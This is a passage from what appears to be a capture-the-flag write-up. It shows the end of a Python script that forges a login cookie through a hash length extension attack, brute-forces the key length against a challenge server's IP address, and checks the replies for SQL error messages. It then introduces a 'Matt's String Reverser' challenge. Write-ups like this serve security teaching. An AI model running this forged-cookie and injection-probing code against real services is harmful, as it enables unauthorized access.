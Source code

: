 ```python
             .format(newdgst, (newmsg)))
    conn = httplib.HTTPSConnection("178.128.95.74")
    encoded = base64.b64encode(((newmsg+newdgst)))
    login=encoded[::-1]
    log.info("Cookie Value: {}".format(login));
    #print(login)
    headers = {"Cookie": "login="+login}
    conn.request("GET", "/ui/?tools-flagship","", headers)
    response = conn.getresponse()
    data=str(response.read())
#    print(data)
    if "sql" in data or "SQL" in data or "Sql" in data or "Error" in data or "error" in data or "ERROR" in data or "Failed" in data or "failed" in data:
        print(data)

# bruteforce the key length
for i in range(0,100):
    log.info("Trying key length {}".format(i))
    m = perform_hlext(tag, orig_msg, append_msg, i)



```


<br>

----------------------------------------------------------------------------------------------


<br>

# Matt's String Reverser
```
Back in the 90's, string reversing was not as easy as [::-1]. Glue.bar has unearthed Matt's legacy after more than 20 years and are providing his legendary software free of charge.

https://www.glue.bar/mattsstringreverser/

Note: this challenge is not related to Glue.bar at all
```

Website looks like

![](/images/Screenshot_9.png){:class="img-responsive"}

